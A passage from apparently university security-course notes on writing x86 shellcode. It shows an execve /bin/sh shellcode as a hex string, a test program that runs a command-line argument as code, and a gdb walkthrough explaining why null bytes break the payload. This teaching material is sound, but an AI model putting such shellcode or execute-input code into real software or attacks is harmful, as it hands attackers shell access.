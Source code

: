 ``` {.example}
user@si485H-base:demo$ gcc execve_jmpcall.c -o execve_jmpcall
user@si485H-base:demo$ ./execve_jmpcall
$ 
```

And now we are in business ... sort of.

Null Bytes are the ENEMY
------------------------

The next challenge is using our shell code through an exploit. We won't
do that exactly, but we can simulate what that might be like with this
simple program:

``` {#dummy_exploit.c .c}
#include <string.h>

int main(int argc, char *argv[]){

  char code[1024];

  strncpy(code,argv[1],1024);

  //cast pointer to function pointer and call
  ((void(*)(void)) code)();

}
```

The program simply reads a command line arguments, loads it into a
buffer, and then executes the buffer. This is essentially what we want
to happen when we exploit a program, but a lot of the work is done for
us.

What we'd like to happen is that we can do this with our shell code hex:

``` {.example}
user@si485H-base:demo$ ./hexify.sh execve_jmpcall
\xeb\x20\x5e\x6a\x00\x56\xba\x00\x00\x00\x00\x89\xe1\x89\xf3\xb8\x0b\x00\x00\x00\xcd\x80\xbb\x00\x00\x00\x00\xb8\x01\x00\x00\x00\xcd\x80\xe8\xdb\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68
user@si485H-base:demo$ ./dummy_exploit $(printf "\xeb\x20\x5e\x6a\x00\x56\xba\x00\x00\x00\x00\x89\xe1\x89\xf3\xb8\x0b\x00\x00\x00\xcd\x80\xbb\x00\x00\x00\x00\xb8\x01\x00\x00\x00\xcd\x80\xe8\xdb\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68")
Segmentation fault (core dumped)
```

We have a problem. Let's execute this under gdb, and we can see where
the problem arises:

``` {.example}
(gdb) ds main
Dump of assembler code for function main:
   0x0804841d <+0>: push   ebp
   0x0804841e <+1>: mov    ebp,esp
   0x08048420 <+3>: and    esp,0xfffffff0
   0x08048423 <+6>: sub    esp,0x410
   0x08048429 <+12>:    mov    eax,DWORD PTR [ebp+0xc]
   0x0804842c <+15>:    add    eax,0x4
   0x0804842f <+18>:    mov    eax,DWORD PTR [eax]
   0x08048431 <+20>:    mov    DWORD PTR [esp+0x8],0x400
   0x08048439 <+28>:    mov    DWORD PTR [esp+0x4],eax
   0x0804843d <+32>:    lea    eax,[esp+0x10]
   0x08048441 <+36>:    mov    DWORD PTR [esp],eax
   0x08048444 <+39>:    call   0x8048310 <strncpy@plt>
   0x08048449 <+44>:    lea    eax,[esp+0x10]
   0x0804844d <+48>:    call   eax
   0x0804844f <+50>:    leave  
   0x08048450 <+51>:    ret    
```